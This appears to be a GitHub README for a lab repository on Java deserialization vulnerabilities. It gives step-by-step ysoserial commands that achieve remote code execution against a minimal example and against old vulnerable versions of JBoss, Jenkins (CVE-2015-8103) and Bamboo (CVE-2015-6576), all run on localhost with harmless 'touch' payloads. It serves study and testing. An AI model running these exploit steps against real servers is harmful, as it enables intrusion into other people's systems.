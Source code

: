 Here there are practical examples of the - deserialization of untrusted objects - vulnerability.

This use the ysoserial tool to generate exploits.

# Stacktraces
https://github.com/EdoardoVignati/ysoserial/tree/master/analyze

See the webpage on https://rawgit.com/EdoardoVignati/ysoserial/master/analyze/index.html

# References and readings
https://github.com/EdoardoVignati/ysoserial/blob/master/biblio.bib

# Defenses
https://link.springer.com/chapter/10.1007/978-3-030-00470-5_21


Minimal Example
---------------------------------
- Use java 8
- cd MinimalExample
- java -jar ../ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections6 "/tmp/exploit.sh">payload.ser 
- cp ./exploit.sh /tmp
- chmod +x /tmp/exploit.sh
- javac Employee.java
- javac DeSerializingObject.java
- java -classpath .:apache-collections-commons-collections-3.1.jar DeSerializingObject 
- You will find a file "pwned" in /tmp. This means that the attack has been completed correctly with a RCE.

JBOSS (CVE)
---------------------------------


- Download a vulnerable version of Jboss (in this case you can find the v5.1.0) 
- Check if you have installed the JDK 1.8
- Run jboss: java -jar ./JBoss/jboss-5.1.0.GA/bin/run.jar
- Download and open Burp: setup your proxy on localhost:9090
- In your browser start proxy on localhost:9090
- Generate the payload with ysoserial: java -jar ysoserial.jar CommonsCollections5 "touch /tmp/JbossVulnerable.txt" > JbossPayload.ser or use the payload inside the folder JBoss
- Open localhost:8080/invoker/JMXInvokerServlet
- In Burp "paste from file" and choose JbossPayload.ser
- Checkout in /tmp folder the execution of "touch /tmp/JbossVulnerable.txt"



Jenkins (CVE-2015-8103)
---------------------------------

- Download a vulnerable version of Jenkins (in this case you can find the v1.649
- Check if you have installed the JDK 1.8
- java -jar ./jenkins-war-1.649.war
- java -cp ysoserial-master-v0.0.5-gb617b7b-16.jar ysoserial.exploit.JenkinsListener http://localhost:8080 CommonsCollections5 "touch /tmp/JenkinsVulnerable.txt"



Bamboo (CVE-2015-6576)
---------------------------------

- Download and install openjdk 1.7
	sudo add-apt-repository ppa:openjdk-r/ppa  
	sudo apt-get update   
	sudo apt-get install openjdk-7-jdk  
- Download and install vulnerable version of Bamboo (v5.4.3 in this case) 
- Create folder /home/user/bamboohome/
- Add/update the property /Bamboo/atlassian-bamboo-5.4.3/atlassian-bamboo/WEB-INF/classes/bamboo-init.properties with
	bamboo.home=/home/user/bamboohome
- Get fingerprint -> localhost:8085/agentServer/GetFingerprint.action?agentType=elastic
- Generate payload with ysoserial
- Open localhost:8085/agentServer/message?fingerprint<copied fingerprint> and "copy from file" in burp
	java -jar ysoserial.jar CommonsCollections4 "touch /tmp/BambooVulnerable.txt" > BambooPayload.ser 
  or use the payload inside the folder JBoss



Other references:
https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478
https://askubuntu.com/questions/761127/how-do-i-install-openjdk-7-on-ubuntu-16-04-or-higher
